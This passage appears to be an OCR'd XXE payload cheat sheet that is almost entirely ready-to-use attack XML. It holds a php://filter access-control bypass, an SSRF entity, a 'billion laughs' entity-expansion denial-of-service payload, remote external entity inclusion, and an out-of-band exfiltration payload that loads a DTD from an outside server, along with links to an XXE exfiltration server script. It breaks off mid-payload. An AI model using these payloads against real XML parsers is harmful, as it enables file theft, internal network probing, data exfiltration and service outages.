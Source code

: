     **Access Control bypass (loading restricted resources - PHP example)**
    
    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE foo [
    <!ENTITY ac SYSTEM "php://filter/read=convert.base64-encode/resource=http://example.com/viewlog.php">]>
    <foo><result>&ac;</result></foo>
    ```
    
    **SSRF Test**
    
    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE foo [
    <!ELEMENT foo (#ANY)>
    <!ENTITY xxe SYSTEM "<https://www.example.com/text.txt>">]><foo>&xxe;</foo>
    ```
    
    **XEE (XML Entity Expansion - DOS)**
    
    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE lolz [
    <!ENTITY lol "lol">
    <!ELEMENT lolz (#PCDATA)>
    <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
    <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
    <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
    <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
    <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
    <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
    <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
    <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
    <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
    ]>
    <lolz>&lol9;</lolz>
    ```
    
    **XEE #2 (Remote attack - through external xml inclusion)**
    
    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE lolz [
    <!ENTITY test SYSTEM "<https://example.com/entity1.xml>">]>
    <lolz><lol>3..2..1...&test<lol></lolz>
    
    ```
    
    **XXE FTP HTTP Server**
    
    https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-server.rb
    
    http://lab.onsec.ru/2014/06/xxe-oob-exploitation-at-java-17.html
    
    ```xml
    <!DOCTYPE data [
    <!ENTITY % remote SYSTEM "<http://publicServer.com/parameterEntity_sendftp.dtd>">
    %remote;
    %send;
    ]>
    <data>4</data>
    